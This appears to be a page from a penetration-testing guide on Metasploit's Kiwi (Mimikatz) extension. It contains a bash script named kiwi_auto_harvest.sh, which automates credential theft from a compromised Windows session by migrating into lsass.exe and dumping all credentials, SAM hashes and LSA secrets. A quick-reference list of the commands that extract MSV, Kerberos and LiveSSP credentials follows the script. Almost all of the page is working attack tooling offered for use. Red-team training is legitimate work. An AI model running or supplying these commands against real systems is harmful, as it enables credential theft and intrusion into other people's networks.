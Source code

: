 ### **⚙️ Automation Script for Multiple Targets:**

```bash
#!/bin/bash
# kiwi_auto_harvest.sh - Automated credential extraction

SESSION_ID=$1
if [ -z "$SESSION_ID" ]; then
    echo "Usage: $0 <session_id>"
    exit 1
fi

LOGFILE="kiwi_harvest_$(date +%Y%m%d_%H%M%S).log"
echo "[+] Starting automated Kiwi credential extraction" | tee $LOGFILE
echo "[+] Target Session: $SESSION_ID" | tee -a $LOGFILE

# Create Metasploit resource script
cat > /tmp/kiwi_harvest.rc << EOF
sessions -i $SESSION_ID
getuid
migrate -N lsass.exe
load kiwi
creds_all
lsa_dump_sam
lsa_dump_secrets
background
EOF

# Execute automated extraction
msfconsole -r /tmp/kiwi_harvest.rc | tee -a $LOGFILE

echo "[+] Credential extraction complete. Check $LOGFILE for results" | tee -a $LOGFILE
```

---

## 📊 Quick Command Reference

### **Essential Commands Summary:**

#### **Basic Setup:**
```bash
getuid                                    # Check current privileges
migrate -N lsass.exe                      # Move to security process
load kiwi                                 # Load credential extraction
```

#### **Credential Extraction:**
```bash
creds_all                                 # Extract all available credentials
creds_msv                                 # MSV authentication data
creds_kerberos                            # Kerberos tickets and keys
creds_livessp                             # LiveSSP credentials
```
